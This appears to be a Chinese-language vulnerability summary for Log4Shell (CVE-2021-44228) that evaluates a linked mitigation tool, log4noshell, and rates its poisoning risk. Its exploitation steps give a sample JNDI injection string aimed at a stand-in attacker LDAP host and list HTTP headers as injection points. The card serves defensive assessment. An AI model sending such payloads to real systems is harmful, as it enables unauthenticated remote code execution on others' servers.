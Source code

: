 ## CVE-2021-44228 Log4Shell

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 严重，未经身份验证的远程代码执行

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 应用程序使用受影响的 Log4j2 版本，且允许记录用户可控的数据。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2021-44228 (Log4Shell) 是 Apache Log4j2 中的一个严重漏洞，它允许未经身份验证的攻击者执行远程代码。攻击者可以通过将恶意 JNDI 注入字符串插入到 Log4j2 记录的日志消息中来利用此漏洞。当 Log4j2 尝试解析此字符串时，它会向攻击者控制的 LDAP 或其他 JNDI 端点发起请求，从而允许攻击者执行任意代码。

**有效性：**

根据漏洞库信息和搜索结果，此漏洞的 POC 代码非常有效。大量的安全厂商和研究人员都确认了此漏洞的存在和可利用性。提供的“Log4NoShell”代码实际上是一个缓解工具，通过禁用 Log4j2 的 JNDI 查找来防止漏洞被利用。它本身不是exploit，而是防御手段。

**投毒风险：**

分析提供的缓解工具代码，该代码主要功能是通过Java Agent禁用Log4j的JNDI lookup功能，本身不存在恶意代码。但是，任何第三方提供的工具都存在潜在的投毒风险。代码中使用了 ASM 字节码操作库，有一定的复杂性，增加了审查的难度。 因此，尽管表面上是防御工具，仍然存在一定的风险，建议在使用前仔细审查代码。

 风险评估：5%。

**利用方式：**

1.  攻击者识别使用易受攻击的 Log4j2 版本的应用程序。
2.  攻击者将包含恶意 JNDI 注入字符串（例如 `${jndi:ldap://attacker.com/evil}`）的输入发送到应用程序，确保该输入会被 Log4j2 记录下来。输入的途径包括但不限于：HTTP头（User-Agent, X-Forwarded-For等），POST请求体，URL参数等
3.  Log4j2 尝试解析该字符串，并向攻击者控制的 LDAP 服务器发起请求。
4.  攻击者的 LDAP 服务器返回一个包含恶意 Java 类的响应。
5.  Log4j2 加载并执行该恶意 Java 类，从而允许攻击者执行任意代码。

**项目地址:** [winnpixie/log4noshell](https://github.com/winnpixie/log4noshell)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)